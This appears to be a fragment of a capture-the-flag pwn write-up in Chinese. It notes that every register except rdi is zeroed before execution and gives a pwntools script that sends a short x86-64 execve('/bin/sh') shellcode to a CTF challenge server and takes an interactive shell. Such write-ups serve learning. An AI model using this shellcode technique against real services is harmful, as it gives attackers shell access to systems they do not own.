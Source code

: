 ​![image](assets/image-20250209112438-r7cwnxs.png)​

执行前除了 rdi 全被置为 0，恰好便于构造 shellcode

```python
from pwn import *

r = remote("node.vnteam.cn",44184)

shellcode = "\x48\x83\xc7\x0e\xb0\x3b\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x68\x00"

print(len(shellcode))
payload = shellcode

r.sendlineafter(b"strength ",payload)

r.interactive()
```
